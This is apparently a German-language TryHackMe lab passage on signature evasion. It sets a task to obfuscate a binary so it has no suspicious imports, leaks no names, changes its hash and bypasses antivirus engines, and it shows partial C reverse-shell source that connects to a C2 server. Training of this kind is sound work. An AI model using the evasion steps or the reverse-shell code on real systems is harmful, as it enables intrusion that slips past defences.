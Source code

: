 ```c
        printf("hostname: %s\\n", hostName);
    }
}
```

Sobald ausreichend obfuskiert, laden Sie das Code-Snippet auf den Webserver unter `http://MACHINE_IP/challenge-2.html` hoch. Die Datei muss als `challenge-2.exe` gespeichert werden. Wenn sie korrekt obfuskiert ist, erscheint eine Flagge in einem Benachrichtigungsfenster.

## Fragen:
Welche Flagge wird nach dem Hochladen eines korrekt obfuskierten Snippets gefunden?
```

```

# Task 7 - Alles zusammengefasst
As bereits in diesem Raum und in den [Grundlagen der Verschleierung](https://tryhackme.com/r/room/obfuscationprinciples) betont wurde, gibt es keine einzelne Methode, die zu 100 % effektiv oder zuverlässig ist.

Um eine effektivere und zuverlässigere Methodik zu erstellen, können wir mehrere der in diesem Raum und im vorherigen behandelten Methoden kombinieren.

Bei der Festlegung der Reihenfolge, in der Sie mit der Verschleierung beginnen möchten, sollten Sie die Auswirkungen jeder Methode berücksichtigen. Ist es beispielsweise einfacher, eine bereits gebrochene Klasse zu verschleiern, oder ist es einfacher, eine Klasse zu brechen, die verschleiert ist?

Hinweis: Im Allgemeinen sollten automatisierte Verschleierung oder weniger spezifische Verschleierungsmethoden nach dem spezifischen Brechen von Signaturen ausgeführt werden. Diese Techniken werden jedoch für diese Herausforderung nicht benötigt.

Unter Berücksichtigung dieser Hinweise passen Sie die bereitgestellte Binärdatei gemäß den untenstehenden Spezifikationen an.

1. Keine verdächtigen Bibliotheksaufrufe vorhanden
2. Keine durchgesickerten Funktions- oder Variablennamen
3. Die Datei-Hash ist unterschiedlich zum Original-Hash
4. Die Binärdatei umgeht gängige Antivirus-Engines

Hinweis: Wenn Sie Bibliotheksaufrufe und durchgesickerte Funktionen in Betracht ziehen, achten Sie auf die IAT-Tabelle und die Zeichenfolgen Ihrer Binärdatei.
```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);
```